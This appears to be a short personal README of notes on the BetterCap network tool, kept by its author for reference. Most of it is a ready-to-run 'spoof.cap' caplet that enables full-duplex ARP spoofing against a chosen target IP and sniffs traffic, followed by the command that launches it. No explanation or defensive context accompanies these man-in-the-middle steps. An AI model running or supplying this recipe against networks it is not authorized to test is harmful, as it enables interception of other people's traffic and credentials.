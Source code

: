 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />
</p>

## To start with the program

<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>
